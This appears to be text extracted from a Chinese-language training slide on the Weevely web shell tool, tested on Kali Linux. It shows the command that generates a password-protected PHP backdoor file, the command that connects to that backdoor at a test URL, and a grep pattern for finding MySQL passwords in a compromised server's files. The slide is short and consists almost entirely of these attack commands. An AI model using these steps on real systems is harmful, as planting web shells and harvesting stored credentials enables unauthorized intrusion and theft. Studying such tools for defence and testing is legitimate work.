

# weevely用法
－后门生成&连接
测试系统：kali linux 2.0 amd64
环境：kali linux apache＋php＋mysql环境
工具版本：weevely v1.1
下面分块来对参数或命令进行说明
后门生成（参数）
root@kali:/home# weevely generate password /home/door.php
连接 weevely http://testurl/door.php password
模拟测试

Weevely 技巧 grep . '^[^*/#]*passw?o?r?d?'
查找mysql 密码
52